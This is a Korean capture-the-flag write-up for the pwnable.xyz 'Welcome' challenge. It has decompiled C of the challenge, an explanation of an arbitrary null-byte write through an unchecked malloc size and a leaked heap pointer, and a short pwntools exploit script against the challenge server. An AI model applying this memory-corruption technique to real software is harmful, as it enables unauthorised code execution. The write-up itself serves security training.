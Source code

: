 ```yaml
---
title: "[pwnable.xyz]Welcome"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
published : false
---
```


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *v3; // rbx
  __int64 v4; // rdx
  char *message; // rbp
  __int64 v6; // rdx
  size_t v7; // rdx
  size_t size; // [rsp+0h] [rbp-28h]
  unsigned __int64 v10; // [rsp+8h] [rbp-20h]
 
  v10 = __readfsqword(0x28u);
  sub_B4E();
  puts("Welcome.");
  v3 = malloc(262144uLL);
  *v3 = 1LL;
  _printf_chk(1LL, "Leak: %p\n", v3);
  _printf_chk(1LL, "Length of your message: ", v4);
  size = 0LL;
  _isoc99_scanf("%lu", &size);
  message = malloc(size);
  _printf_chk(1LL, "Enter your message: ", v6);
  read(0, message, size);
  v7 = size;
  message[size - 1] = 0;
  write(1, message, v7);
  if ( !*v3 )
    system("cat /flag");
  return 0LL;
}

```

중요한 부분은 if문인데 !*v3가 0이 되도록하면 풀 수 있겠다. 처음에 *v3 = 1 돼있다.

v3를 할당해주고 v3 주소를 Leak 해준다.

메세지를 size만큼 할당하고 그 size만큼 message를 입력받을 수 있다. 근데 message[size - 1]로 마지막 인덱스를 0으로 만들어버리니까 Leak 주소 + 1을 size로 보내면 *v3 = 0으로 되서 풀 수 있다.

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30000)
 
p.recvuntil('Leak: ')
leak = int(p.recvline(),16)
log.info('leak : ' + hex(leak))
p.sendlineafter(': ',str(leak+1))
p.sendlineafter(': ','Hello World!')
p.interactive()
```


